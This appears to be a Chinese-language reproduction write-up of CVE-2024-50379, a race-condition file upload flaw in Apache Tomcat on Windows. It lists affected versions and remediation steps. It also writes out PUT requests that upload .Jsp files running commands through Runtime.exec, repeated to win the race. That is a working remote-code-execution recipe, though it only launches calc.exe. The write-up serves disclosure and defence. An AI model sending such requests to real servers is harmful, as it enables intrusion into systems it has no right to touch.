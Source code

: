 ## 漏洞描述

Apache Tomcat是由Apache软件基金会下属的Jakarta项目开发的Servlet容器。2024年12月，官方披露 CVE-2024-50379 Apache Tomcat 条件竞争文件上传漏洞。

由于 Apache Tomcat 在路径校验逻辑中存在缺陷，当在不区分大小写的系统（如Windows）上启用了default servlet 的写入功能（默认关闭）时，攻击者可构造恶意请求绕过路径一致性检查，从而可能上传webshell并造成远程代码执行。漏洞利用需要条件竞争，对网络以及机器性能环境等有一定要求。

## 影响版本

11.0.0-M1 <= Apache Tomcat < 11.0.2

10.1.0-M1 <= Apache Tomcat < 10.1.34

9.0.0.M1 <= Apache Tomcat < 9.0.98

## 复现过程

Windows + Tomcat 9.0.96

[Tomcat 9.0.96下载地址](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.96/)

其中Tomcat中的web.xml配置如下，加入readonly配置项：

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

![image-20241219204910512](./main.assets/image-20241219204910512.png)

然后构造Burpsuite的包，构造了两个PUT包，分别是大写的a.Jsp、b.Jsp

```jsp
PUT /a.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json

<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // Execute the command to open calc.exe
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");
        } catch (Exception e) {
            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");
        }
    %>
</body>
</html>
```

![image-20241219223959591](./main.assets/image-20241219223959591.png)

```jsp
PUT /b.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json

<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // Execute the command to open calc.exe
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");
        } catch (Exception e) {
            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");
        }
    %>
</body>
</html>
```

![image-20241219224134153](./main.assets/image-20241219224134153.png)

然后同时再开一个线程不断地请求a.jsp，理论上这个访问会404，因为没有a.jsp，但在触发了TOCTOU竞争后，这一瞬间所有的访问都会200

![image-20241219224939925](./main.assets/image-20241219224939925.png)

最终效果如下，任意代码执行，弹出了很多计算器......

![calc](./main.assets/calc.png)

具体原理可以参考Github上的这一个[CVE-2024-50379-POC](https://github.com/v3153/CVE-2024-50379-POC)，这个并不是真正的POC，只是一个demo用来解释漏洞大概产生的原理，同时这个老哥还写了一篇blog解释对应的原理，参考：[Deep Dive & POC of CVE-2024-50379 Exploit Tomcat Vulnerability](https://medium.com/@patelvidhi4288/deep-dive-poc-of-cve-2024-50379-exploiting-tomcat-vulnerabilities-9-8-severity-694b1a65c4bd)

## 漏洞修复建议

1. 建议升级至安全版本及其之后。
2. 若无必要建议关闭 Default Servlet 的写入功能（设置readonly为 true）。
3. 禁用 PUT 方法并重启 Tomcat 服务以启用新的配置。
4. 云安全中心支持针对 Apache Tomcat default servlet PUT 开启风险 进行检测。、
